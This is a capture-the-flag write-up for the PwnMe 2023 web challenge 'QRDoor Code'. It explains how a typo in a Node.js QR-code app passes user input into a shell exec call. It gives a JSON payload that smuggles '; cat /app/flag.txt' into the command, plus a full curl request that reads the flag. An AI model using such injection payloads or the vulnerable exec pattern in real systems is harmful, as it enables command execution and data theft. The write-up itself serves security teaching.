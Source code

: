 ```yaml
---
title: "[Easy][PwnMe 2023][Web] QRDoor Code"
date: "2023-05-07"
categories: [ "CTF", "PwnMe 2023 CTF", "Web" ]
ShowToc: false
draft: false
weight: 2
---
```


## Introduction

This challenge is a WEB challenge from the PWNME 2023 CTF.

### Background explanation

A company needs a website to generate a QR Code. They asked a freelancer to do this work.

Since the website went live, they have noticed strange behavior on their server.

They need your help to audit their code and help them solve their problem.

### Directive

The flag is located in **/app/flag.txt**.

## Solution

The website's sources are available for download [here](https://github.com/mxcezl/PwnMe-CTF-2023/tree/main/Web/Easy/QRDoor%20Code).

The application is developed in Node.js and runs an Express server.

It allows users to generate a QR Code from a value entered by the user.

![QRDoor Code](/images/pwnme2023/web/qrdoor_exemple.png)

For example, here we generated a QRCode with the value **PWNME2023**.

There is a mention at the top of the page indicating that the maximum size of the input is 150 characters. Beyond that, a random sentence is generated for the QR Code.

The project contains two endpoints that are used:

- **/**: which displays the homepage
- **/generate**: which generates the QR Code

### Code analysis

#### Home page endpoint

```javascript
app.get('/', async (req, res) => {
    res.render('index');
});
```

The homepage is rendered by the EJS template engine.

There is nothing particular to note about this resource.

#### Generation endpoint

```javascript
app.post('/generate', async (req, res) => {
    const { value } = req.body;
    try {
        let newQrCode;
        // If the length is too long, we use a default according to the length
        if (value.length > 150)
            newQrCode = new QRCode(null, value.lenght)
        else {
            newQrCode = new QRCode(String(value))
        }
        
        const code = await newQrCode.getImage()
        res.json({ code, data: newQrCode.value });
    } catch (error) {
        res.status(422).json({ message: "error", reason: 'Unknow error' });
    }
});
```

This function is more interesting to analyze.

We see that the **value** input is retrieved from the request body, and if the length of the value is greater than 150 characters, then the value is not taken into account, only its length.

Finally, the `getImage()` function is called on the `newQrCode` object, and the result is returned to the client.

Let's look at the sources of the `QRCode` class:

```javascript
class QRCode {
    constructor(value, defaultLength){
        this.value = value
        this.defaultLength = defaultLength
    }

    async getImage(){
        if(!this.value){
            // Use 'fortune' to generate a random funny line, based on the input size
            try {
                this.value = await execFortune(this.defaultLength)
            } catch (error) {
                this.value = 'Error while getting a funny line'
            }
        }
        return await qrcode.toDataURL(this.value).catch(err => 'error:(')
    }
}
```

To generate a QRCode, the `getImage()` function first checks that the value is not empty.

If there is a value, then the `execFortune()` function is called with the `defaultLength` value as a parameter.

```javascript
function execFortune(defaultLength) {
    return new Promise((resolve, reject) => {
     exec(`fortune -n ${defaultLength}`, (error, stdout, stderr) => {
      if (error) {
        reject(error);
      }
      resolve(stdout? stdout : stderr);
     });
    });
}
```

Here, we clearly identify a possible command injection by manipulating the size of the value.

One might think it's impossible to exploit given that it's an integer passed as a parameter to execFortune, but let's take a closer look at how the size of the value is checked:

```javascript
if (value.length > 150)
    newQrCode = new QRCode(null, value.lenght)
else {
    newQrCode = new QRCode(String(value))
}
```

We notice a typo in the variable `value.lenght`, which should be `value.length` in the case where the value is greater than 150 characters.

The initial request sent a JSON like this:

```json
{
    "value": "PWNME2023"
}
```

We can modify the request to take advantage of this typo by sending:

```json
{
    "value": {
        "length": 151,
        "lenght": "; cat /app/flag.txt"
    }
}
```

Thus, the control is interpreted:

```javascript
if (151 > 150)
    newQrCode = new QRCode(null, "; cat /app/flag.txt")
else {
    newQrCode = new QRCode(String(value))
}
```

Then in the `getImage()` function:

```javascript
function execFortune("; cat /app/flag.txt") {
    return new Promise((resolve, reject) => {
     exec(`fortune -n ; cat /app/flag.txt`, (error, stdout, stderr) => {
      if (error) {
        reject(error);
      }
      resolve(stdout? stdout : stderr);
     });
    });
}
```

So, with this final request, we can read the flag:

```bash
curl 'http://13.37.17.31:54224/generate' \
  -H 'Content-Type: application/json; charset=UTF-8' \
  --data-raw '{"value":{"length":151,"lenght":"; cat /app/flag.txt"}}'
```

Response:

```json
{
    "code":"data:image/png;base64,...",
    "data":"PWNME{E4Sy_P34sI_B4CkdO0R}"
}
```

Flag: PWNME{E4Sy_P34sI_B4CkdO0R}

## Tips & Tricks

- Be careful with typos in the code.
- Identify functions that can be called with user-manipulated parameters.
- If the data is in JSON format, try modifying the data type (string, int, array, object, etc.).